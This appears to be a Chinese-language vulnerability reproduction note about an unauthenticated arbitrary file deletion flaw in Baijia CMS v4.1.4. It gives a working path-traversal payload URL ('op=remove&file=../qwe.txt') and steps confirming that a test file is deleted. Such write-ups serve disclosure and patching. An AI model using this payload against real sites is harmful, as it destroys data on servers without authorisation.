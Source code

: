 # 百家cms v4.1.4 任意文件删除漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3324](https://www.zhihuifly.com/t/topic/3324)

# 百家cms v4.1.4 任意文件删除漏洞

## 一、漏洞简介

## 二、漏洞影响

百家cms v4.1.4

## 三、复现过程

```
# payload
# 不需要后台权限
# 只能删除文件，不能删除文件夹 `[http://www.0-sec.org/index.php?mod=mobile&act=uploader&op=post&do=util&m=eshop&op=remove&file=../qwe.txt](http://www.0-sec.org/index.php?mod=mobile&act=uploader&op=post&do=util&m=eshop&op=remove&file=../qwe.txt)` 
```

设置里需要选择本地，否则删除的不是本地文件

![image](img/8488bdbdbafc372b50cfa43ed42facea.png)

先在根目录下创建qwe.txt作为测试文件

![image](img/e9b8ef9a6b2adc00f22332e764e2fd27.png)

访问payload

![image](img/4abaf66e290dc5934a84872422078ff6.png)

查看文件，已经被删除

![image](img/07f1ed518212169c3f94f7537dd831e3.png)

## 参考链接

> https://xz.aliyun.com/t/7542